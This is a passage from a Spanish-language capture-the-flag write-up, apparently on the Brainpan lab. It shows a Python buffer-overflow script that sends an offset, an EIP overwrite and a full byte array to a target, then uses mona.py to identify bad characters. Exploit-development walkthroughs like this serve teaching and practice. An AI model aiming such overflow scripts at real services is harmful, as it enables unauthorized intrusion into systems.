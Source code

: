 Una vez copiado el archivo `bytearray.txt` a nuestra maquina Linux (se hace con `impacket-smbserver` de nuevo) podemos hacer uso de `grep` y `xclip` para copiar el contenido:
> `grep ^\" bytearray.txt | xclip -sel clip`{:.language-bash .highlight}
![image](https://user-images.githubusercontent.com/85322110/149220672-474bc336-62fb-4039-baa0-3c87253e34d7.png)

Y luego retocamos nuetro script para incluir estos bytes luego de la posicion del `EIP`:

```python
#!/usr/bin/python
import socket, sys, time
if __name__ == '__main__':
    ip_addr =  sys.argv[1]
    port = int(sys.argv[2])
    offset = 'A'*524
    eip = 'B'*4
    command = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    payload = offset + eip + command 
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect((ip_addr, port))
        data = s.recv(1024)
        print("[*] Enviando payload...")
        s.send((payload).encode('latin1'))
        data = s.recv(1024)
    except:
        print("\n    [!] Ocurrio un error!")
        sys.exit(1)

```

Al enviar el script:
![image](https://user-images.githubusercontent.com/85322110/149221375-f9b3c99e-026a-4ca8-9336-e0bfb32bb555.png)
Vemos como efectivamente el `EIP` se muestra como `42424242` que significa `BBBB`, y justo despues de este viene el stack `ESP` en donde vemos todo nuestro `bytearray` desde `0x01` hasta `0xFF`, es ciertamente ineficiente revisar caracter por caracter, asi que haremos uso de `mona.py` nuevamente donde tiene una funcion que hace esto por nosotros. Solo es ejecutar la siguiente linea:
> `!mona compare -f C:\brainpan\bytearray.bin -a 0x0022F930`{:.language-bash .highlight} 
